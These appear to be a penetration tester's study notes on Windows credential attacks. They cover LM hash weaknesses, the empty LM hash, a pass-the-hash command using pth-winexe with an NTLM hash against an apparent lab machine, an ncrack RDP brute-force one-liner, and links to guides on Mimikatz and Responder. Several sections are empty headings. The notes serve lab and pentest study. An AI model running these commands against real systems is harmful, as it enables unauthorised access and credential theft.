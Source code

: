 # Hashes and Credentials

## LM hashes
- Password longer than 7 is split and each half hashed separately
- Passwords are converted into uppercase
- No salt
- Empty LM hash
```
AAD3B435B51404EE
AAD3B435B51404EEAAD3B435B51404EE
```
## NTLM hashes

## Dumping hashes
- Cannot copy SAM when sys is in use

## Capturing Hashes

### Responder
### Inveigh
### Impacket's smbserver.py

## Pass the Hash

Auth using username and NTLM hash (since NTLM and LM hashes are not salted)

- Replace "no password" in dump wih empty LM hash
- Copy admins dumped hash (LM:NTML)
- export SMBHASH=LM:NTML
- pth-winexe -U administrator% //ip cmd

### pth-winexe
```
pth-winexe
-U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
//10.10.10.63 cmd
```

## RDP
```
ncrack -v -f --user administrator -P password.txt rdp://ip,CL=1
```

## LSASS

## References
- Extracting User Password Data with Mimikatz DCSync: https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/
- Pwning with Responder – A Pentester’s Guide: https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/
